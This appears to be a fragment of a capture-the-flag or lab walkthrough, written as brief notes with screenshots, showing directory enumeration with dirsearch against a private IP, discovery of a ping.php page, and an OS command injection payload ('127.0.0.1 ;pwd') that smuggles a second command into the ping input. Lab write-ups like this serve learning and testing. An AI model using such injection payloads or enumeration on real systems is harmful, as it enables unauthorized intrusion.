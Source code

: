  * `dirsearch -u http://172.24.170.117/secret/ -e php -x 404,403`
 * nothing interesting
 * run dirsearch again
 
<img src="/img/injector/dir2.PNG" alt="Getting-gz" width="800" height="440">

  * I found ping.php
  
<img src="/img/injector/browser2.PNG" alt="Getting-gz" width="800" height="330">

 *  i found command injection
 * `127.0.0.1 ;pwd`
 
<img src="/img/injector/os.PNG" alt="Getting-gz" width="800" height="220">

